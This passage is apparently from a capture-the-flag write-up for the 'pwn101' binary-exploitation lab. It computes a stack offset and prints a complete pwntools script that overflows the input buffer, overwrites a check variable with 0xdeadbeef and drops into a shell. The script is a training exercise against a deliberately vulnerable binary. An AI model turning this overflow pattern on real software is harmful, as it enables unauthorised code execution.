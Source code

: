 From the stack layout we see that our input starts at offset `0x48` and the check variable is `0xc` 

The offset between the input and check variable is `0x48 - 0xc = 0x3c`

Solve script available at [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn101.py)

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Binary filename
exe = './pwn101.pwn101'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 0x3c
padding = "A" * offset 
check = 0xdeadbeef

# Build the payload
payload = flat([
    padding,
    check
])

# Send the payload
io.sendline(payload)

# Got Shell?
io.interactive()
```

So what the script does is that it overwrite the value stored in check to 0xdeadeef

Running it locally grants us shell
